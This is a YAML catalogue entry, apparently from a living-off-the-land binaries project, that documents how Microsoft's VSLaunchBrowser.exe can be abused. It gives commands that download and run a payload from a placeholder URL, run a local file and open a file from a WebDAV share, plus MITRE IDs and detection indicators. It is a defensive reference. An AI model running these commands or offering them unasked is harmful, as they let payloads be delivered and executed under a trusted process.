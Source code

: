```yaml
---
Name: VSLaunchBrowser.exe
Description: Microsoft Visual Studio browser launcher tool for web applications debugging
Author: Avihay Eldad
Created: 2024-04-12
Commands:
  - Command: VSLaunchBrowser.exe .exe http://example.com/payload
    Description: Download and execute payload from remote server
    Usecase: It will download a remote file to INetCache and open it using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
  - Command: VSLaunchBrowser.exe .exe C:\Windows\System32\calc.exe
    Description: Execute payload via VSLaunchBrowser as parent process
    Usecase: It will open a local file using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
  - Command: VSLaunchBrowser.exe .exe \\Server\Path\file
    Description: Execute payload from WebDAV server via VSLaunchBrowser as parent process
    Usecase: It will open a remote file using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
      - Execute: Remote
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\<version>\Community\Common7\IDE\VSLaunchBrowser.exe
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\<version>\Community\Common7\IDE\VSLaunchBrowser.exe
Detection:
  - IOC: cmd.exe as sub-process of VSLaunchBrowser
  - IOC: URL on a VSLaunchBrowser command line
  - IOC: VSLaunchBrowser making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

